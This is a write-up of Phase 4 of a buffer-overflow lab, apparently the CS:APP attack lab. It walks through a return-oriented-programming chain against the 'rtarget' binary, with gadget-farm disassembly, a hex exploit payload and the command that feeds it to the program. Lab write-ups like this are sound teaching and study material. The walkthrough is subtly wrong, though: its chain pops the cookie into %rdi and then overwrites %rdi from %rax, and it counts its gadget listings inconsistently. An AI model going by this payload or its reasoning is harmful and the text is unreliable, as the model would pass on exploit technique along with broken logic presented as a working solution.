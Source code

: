 ### **Phase 4**

This phase is more difficult than the previous phases because it is on rtarget. We have to use a concept called **Return Oriented Programming**. 

For this phase, we will be using the gadget farm to perform our exploits.

Phase 4 is calling **touch2**, similar to Phase 2, but we will use a different exploit method.

Our first step is to pop the rdi register off of the stack.
With the encoding table in hand we find that,
```
   popq %rdi = 5f
```

We now need to find the instruction starting with **5f** within our gadget farm. The gadget farm is located between **_start_farm_** and **_end_farm_** in your rtarget's objdump.

My 5f starts one after the instruction **401f68**
```
0000000000401f64 <getval_447>:
  401f64:   f3 0f 1e fa             endbr64
  401f68:   b8 5f 58 90 90          mov    $0x9090585f,%eax
  401f6d:   c3                      ret
```

Next we need to move rax into rdi. The encoding for that is,
```
   movq %rax %rdi = 48 89 c7 c3
```

I found two spots with the ```48 89 c7 c3``` sequence.
```
0000000000401f3a <getval_160>:
  401f3a:   f3 0f 1e fa             endbr64
  401f3e:   b8 48 89 c7 c3          mov    $0xc3c78948,%eax
  401f43:   c3                      ret

0000000000401f44 <getval_113>:
  401f44:   f3 0f 1e fa             endbr64
  401f48:   b8 58 94 90 90          mov    $0x90909458,%eax
  401f4d:   c3                      ret

0000000000401f4e <addval_368>:
  401f4e:   f3 0f 1e fa             endbr64
  401f52:   8d 87 48 81 c7 90       lea    -0x6f387eb8(%rdi),%eax
  401f58:   c3                      ret

0000000000401f59 <addval_123>:
  401f59:   f3 0f 1e fa             endbr64
  401f5d:   8d 87 48 89 c7 c3       lea    -0x3c3876b8(%rdi),%eax
  401f63:   c3                      ret
```

It does not matter which one you choose, just make you are starting at the instruction.

For example, if I wanted to use the ```48 89 c7 c3``` sequence at line **401f5d**, I would have to add 0x2 to start at the ```48```.

Now to begin our exploit,

1. Fill your buffer with padding
2. Add the starting point address of a **popq %rdi** instruction.
   * Don't forgot to add the offset if the instruction doesn't begin at the start. This is also in little-endian and 8-bytes(padding).
3. Add your cookie. Little-endian and 8-bytes in length.
4. Add the starting point address of a **movq %rax %rdi** instruction.


In the end, it should look something like this.

```
/* Buffer - 24 bytes */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00

/* Popq rdi */
/* 401f69 */
69 1f 40 00 00 00 00 00

/* Cookie */
/* 0x33f72ca5 */
a5 2c f7 33 00 00 00 00

/* Move rax into rdi */
/* 401f5f */
5f 1f 40 00 00 00 00 00

/* Ret address of touch2 */ww
/* 0x401d4e */
4e 1d 40 00 00 00 00 00 
```

As always, to run this type,
```
./hex2raw < rtarget.lv4 | ./rtarget
```

Nice job, Phase 4 done.